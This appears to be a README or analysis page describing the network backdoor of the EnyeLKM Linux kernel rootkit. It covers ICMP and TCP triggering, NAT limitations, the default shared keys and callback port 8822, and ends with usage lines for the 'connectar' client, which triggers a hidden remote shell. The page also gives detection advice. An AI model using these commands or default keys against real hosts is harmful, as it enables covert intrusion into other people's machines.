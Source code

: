 The shell returned will be hidden from netstat and the process list.

Connections established using the network backdoor are not encrypted.

The network backdoor in EnyeLKM has matured with the rootkit.

Versions 1.1.2 – 1.1.4 only offered ICMP triggering.  Since many hosts do not process ICMP messages (or they may be blocked by perimeter firewalls) a TCP available as an option in the 1.2 build.  When using the TCP option for triggering, a listening port on the target machine must be used.  Attempting to trigger a closed port will not work as the kernel level monitor is inserted in the TCP stack above where port multiplexing occurs.

Network Address Translation (NAT) is an issue that EnyeLKM's backdoor is not programmed to deal with.  There is no option to trigger a callback address in the connection program.  When the attacker and target are on different sides of a NAT device, the backdoor cannot be triggered.  When the target receives the trigger packet, the source address appears to be the internal address of the NAT device.  The target will call back to the internal address of the NAT device and will most likely receive a RST packet from the NAT device.

***** Don't take this to mean your machines are safe from this backdoor if they sit behind a NAT device.  I personally know a hacker who has programmed a patch to the rootkit and connection program that overcome the NAT problem by adding a callback address to the trigger packet.  The code modifications were actually quite trivial. *****

![ScreenShot](https://github.com/David-Reguera-Garcia-Dreg/enyelkm/blob/master/nat.png)

Why NAT poses a problem:

In this diagram, the blue lines represent the trigger and the red lines represent the callback.  The same problem occurs whether an ICMP or TCP trigger is used.  Assume in this case that a TCP trigger is used. The TCP SYN packet will make it through the NAT device.  The target reply (normal SYN/ACK) will be returned through the NAT device since there is a Port Address Translation (PAT) rule in place for this connection.

Encoded in the TCP packet is the port to call back to (default 8822).  The target now tries to establish a connection to that port on the source address.  The problem is that the target sees the source address as 192.168.0.1 instead of 172.16.0.5.  Since no PAT rule exists for this IP/Port combination the connection is actively refused by the NAT device.

A pre-shared key is used to offer some sort of authentication for the rootkit.  Without a configurable key, anyone with the connection program could connect to any machine with EnyeLKM installed.  The default key is rarely changed by script kiddies.  It is defined in config.h (ICMP_CLAVE) and is set by default “ENYELKMICMPKEY”.  It can only be changed at compile time, so it is considerably less flexible than standard password based authentication.  In EnyeLKM 1.2, the TCP shared key defaults to “ENYELKMTCPKEY”.  It is defined in config.h as TCP_CLAVE.

The client (attacker) side connection program is called “connectar”.  It must be run from the client machine as root since it requires raw socket access to craft the trigger packet.  

After the connectar program sends the trigger packet, it opens a TCP port on the sending machine and waits for the attacked machine to call back to the open port.  If no port is specified when the program is run, the callback will occur on TCP 8822.  Any NIDS in place should be configured to flag TCP 8822 connections for inspection.

Client Usage:
./connectar -icmp IP_address [callback port]
./connectar -tcp IP_address destination_port [callback port]
